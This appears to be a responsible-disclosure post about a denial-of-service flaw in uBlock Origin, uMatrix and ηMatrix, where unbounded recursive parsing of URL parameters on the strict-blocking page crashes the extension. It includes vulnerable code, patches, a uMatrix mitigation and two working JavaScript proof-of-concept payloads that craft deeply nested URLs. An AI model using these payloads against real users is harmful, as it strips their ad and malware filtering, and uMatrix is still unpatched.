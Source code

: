 = uBlock Origin (and uMatrix) DoS with strict-blocking filter and crafted URL

:fn-legacy-release: footnote:[A release of the uBO (Legacy) extension https://github.com/gorhill/uBlock-for-firefox-legacy/issues/310#issuecomment-876323719[is forthcoming].]

:fn-ubo-strict-mode-history: footnote:[Strict-blocking support was added to uBO in https://github.com/gorhill/uBlock/commit/a4b4bc98ffc267496d5dc47d9c4477de38bcd0c7[commit a4b4bc] and was based on https://github.com/uBlock-LLC/uBlock/issues/1013[discussion in the issue tracker]. Support for displaying parsed URL parameters was added later in https://github.com/gorhill/uBlock/commit/1d5a592b129b92ff6fad7cf01c4b412547893bfc[commit 1d5a59] and was based on a https://github.com/gorhill/uBlock/issues/691[feature request].]

:fn-umatrix-strict-mode-history: footnote:[uBO's support for displaying parsed URL parameters was ported to uMatrix in https://github.com/gorhill/uMatrix/commit/3f8168ce0bb7bb1837f9fedfc02aa09723ee3e25[commit 3f8168].]

:fn-ubo-patch: footnote:[The uBO vulnerability was fixed in https://github.com/gorhill/uBlock/commit/365b20e8cc27cd776ef3868b02ea739ba387356d[commit 365b20].]

:fn-ematrix-patch: footnote:[The ηMatrix vulnerability was fixed in https://gitlab.com/vannilla/ematrix/-/commit/42869ac0a738679b819bebca24298c601ed17f7e[commit 42869a].]

:fn-truecrypt-vulnerability: footnote:[I eventually migrated away from TrueCrypt after an https://googleprojectzero.blogspot.com/2015/10/windows-drivers-are-truely-tricky.html[unpatched vulnerability] was discovered.]

:fn-umatrix-archived: footnote:[gorhill https://github.com/uBlockOrigin/uMatrix-issues/issues/291#issuecomment-694988696[commented] about archiving the uMatrix repository in September 2020.]

:fn-umatrix-last-stable-release: footnote:[The last stable release of uMatrix, https://github.com/gorhill/uMatrix/releases/tag/1.4.0[1.4.0], was tagged on September 5, 2019.]

:fn-ubo-patch-release: footnote:[https://github.com/gorhill/uBlock/releases/tag/1.36.2[uBO 1.36.2] was tagged shortly after notification of the vulnerability.]

:fn-ematrix-patch-release: footnote:[https://gitlab.com/vannilla/ematrix/-/tags/v4.4.9[ηMatrix 4.4.9] was tagged shortly after notification of the vulnerability.]


== Overview

uBlock Origin (uBO) is a browser extension that blocks ads, security risks, privacy risks, and other web annoyances.
One of its features is "strict blocking," which prevents all connections--including direct navigations--to resources that match strict filters.

Strict filters are most often used to block sites that perform affiliate redirects, serve malware, or are otherwise undesirable to visit.
They are typically applied at the domain level (e.g., googlesyndication.com) and tend to resemble entries in hosts files, though they can also target more specific resources.

Strict blocking works by opening a warning page that provides information about the blocked resource, including its URL and the filter that prevented the resource from loading.
The warning page also displays query parameters from the blocked URL to help users bypass redirect tracking.

In earlier versions of uBO, these parameters were parsed recursively and added to the DOM without any depth checks, which could lead to extension crashes and memory exhaustion, depending on the browser and hardware.
uMatrix and ηMatrix, a fork of uMatrix compatible with Pale Moon, share similar code for displaying parsed URL parameters.

Users should upgrade to uBO 1.36.2 and ηMatrix 4.4.9 to receive fixes for this security vulnerability, which affects the default configurations of both extensions.
The uBO (Legacy) extension{fn-legacy-release} has a separate release process and is still vulnerable.

*uMatrix remains unpatched and unmaintained*, though an unofficial mitigation is detailed below.


== Discussion

I discovered this bug while browsing the uBO codebase, which was a bit surprising given how basic the finding is.
Even more surprising is that this vulnerability seems to have existed in uBO since 2015{fn-ubo-strict-mode-history} (and in uMatrix since 2017{fn-umatrix-strict-mode-history}).
Perhaps the extension has not received as much attention from security researchers as I'd expected, given its popularity and its security- and privacy-related functionality?

=== Vulnerability

Here is the vulnerable code from uBO 1.36.0:

[source,javascript,linenums,start=147]
.https://github.com/gorhill/uBlock/blob/1.36.0/src/js/document-blocked.js#L147-L176[uBlock/src/js/document-blocked.js]
----
const renderParams = function(parentNode, rawURL) {
    const a = document.createElement('a');
    a.href = rawURL;
    if ( a.search.length === 0 ) { return false; }

    let pos = rawURL.indexOf('?');
    const li = liFromParam(
        vAPI.i18n('docblockedNoParamsPrompt'),
        rawURL.slice(0, pos)
    );
    parentNode.appendChild(li);

    const params = a.search.slice(1).split('&');
    for ( const param of params ) {
        let pos = param.indexOf('=');
        if ( pos === -1 ) {
            pos = param.length;
        }
        const name = safeDecodeURIComponent(param.slice(0, pos));
        const value = safeDecodeURIComponent(param.slice(pos + 1));
        const li = liFromParam(name, value);
        if ( reURL.test(value) ) {
            const ul = document.createElement('ul');
            renderParams(ul, value);                            <1>
            li.appendChild(ul);
        }
        parentNode.appendChild(li);
    }
    return true;
};
----

<1> `renderParams` is called recursively without taking into account the current nesting level.
This allows for repeated allocations that can cause resource exhaustion on memory-constrained hardware and extension crashes in Chrome.

For reference, here is what the warning page looks like in uBO 1.36.0 with some nested parameters displayed:

.uBO's strict-blocking warning page
image::images/ubo_strict_blocking_warning_page.png[uBO's strict-blocking warning page. The page displays a URL that contains a few levels of nested parameters and the parsed representations of those parameters.]

=== Impact and scope

The strict-blocking warning page is only displayed when direct navigations are blocked.
This means that malicious hosts would need to induce users to trigger a navigation somehow, such as by clicking a link.
iframes are classified as sub-documents and do not trigger the warning page, which should make it harder for malicious hosts to exploit this vulnerability in the background.

When uBO (or uMatrix) crashes, users are left without filtering protection until the extension is reloaded.
This introduces the possibility of undesired traffic flowing to and from the user's browser.
I tested three browsers--Firefox, Chrome, and Pale Moon--and only noticed extension crashes in Chrome.
Other browsers that uBO supports, such as Opera and Edge, were not tested and may exhibit different behavior.

The vulnerability affects standard configurations of uBO, uMatrix, and ηMatrix because each extension enables filter lists that contain thousands of strict filters by default.

=== uBO and ηMatrix patches

uBO 1.36.2 restricts parameter-nesting to 2 levels to fix the bug{fn-ubo-patch}, and ηMatrix 4.4.9 restricts parameter-nesting to 3 levels to fix the same issue{fn-ematrix-patch}.

=== uMatrix mitigation

The uMatrix repository was archived in September 2020{fn-umatrix-archived}, and the last stable uMatrix release was in September 2019{fn-umatrix-last-stable-release}.
Until now, I've been treating uMatrix similarly to how I treated TrueCrypt after its development had stopped: unmaintained but still trustworthy in the absence of known vulnerabilities{fn-truecrypt-vulnerability}.
I may have to rethink my default stance for unmaintained security-related software going forward.

To mitigate the vulnerability for now, users can disable uMatrix's strict-blocking support by unselecting all of the filter lists on the "Assets" tab in the uMatrix dashboard.
They can also enable all of the "Malware domains" and "Multipurpose" filter lists in uBlock Origin to help offset the lost filtering coverage.


== POCs

=== uBO

[source,javascript]
----
// bet365.com is used because uBO enables EasyList by default and because
// EasyList contains this entry: ||bet365.com/*?affiliate=$document

let repetitions = 8000;
if (navigator.userAgent.includes('Chrome')) {
    // Lower the number of repetitions in Chrome to prevent
    // a 'Maximum call stack size exceeded' exception
    repetitions = 3000;
}

const url = 'http://bet365.com/?affiliate=' + 'http://a?a='.repeat(repetitions);
window.location = url;

// Notice the browser eating CPU and memory. In Chrome, uBO eventually crashes
// and must be reloaded to work again.
----

=== uMatrix and ηMatrix

[source,javascript]
----
// googleadservices.com is used because uMatrix and ηMatrix enable Peter Lowe's
// tracking list by default and because the list contains this entry:
// 127.0.0.1 googleadservices.com

let repetitions = 8000;
if (navigator.userAgent.includes('Chrome')) {
    // Lower the number of repetitions in Chrome to prevent
    // a 'Maximum call stack size exceeded' exception
    repetitions = 3000;
} else if (navigator.userAgent.includes('PaleMoon')) {
    // Pale Moon can actually handle more repetitions than this,
    // but its memory usage becomes excessive (>10GB)
    repetitions = 18000;
}

const url = 'http://googleadservices.com/?a=' + 'http://a?a='.repeat(repetitions);
window.location = url;

// Notice the browser eating CPU and memory. In Chrome, uMatrix eventually crashes
// and must be reloaded to work again.
----


== Timeline

* 2021-07-05 - I emailed gorhill (the author of uBO and uMatrix) my findings
* 2021-07-06 - gorhill pushed a fix for uBO and tagged 1.36.2{fn-ubo-patch-release}
* 2021-07-06 - I emailed vannilla (the maintainer of ηMatrix) my findings
* 2021-07-06 - vannilla pushed a fix for ηMatrix and tagged 4.4.9{fn-ematrix-patch-release}
* 2021-07-06 - uBO 1.36.2 became available on the Chrome and Firefox add-ons sites
* 2021-07-07 - uBO 1.36.2 became available on the Opera add-ons site
* 2021-07-11 - ηMatrix 4.4.9 became available on the Pale Moon add-ons site after a beta-testing period
* 2021-07-14 - I published this post


== Acknowledgments

Thanks to gorhill for fixing the issue in uBO, preparing a release, and creating software that has improved daily web-browsing for many users.

Thanks to vannilla for fixing the issue in ηMatrix and preparing an out-of-band release.

Thanks to nikrolls for submitting uBO 1.36.2 to the Edge add-ons site.

Thanks to JustOff for agreeing to prepare a future uBO (Legacy) release that addresses the vulnerability.

== References

* https://github.com/gorhill/uBlock/wiki/Strict-blocking/[Documentation for uBO's strict-blocking feature]
* https://github.com/gorhill/uMatrix/wiki/How-to-get-past-%22uMatrix-has-prevented-the-following-page-from-loading%22[Documentation for uMatrix's strict-blocking feature]

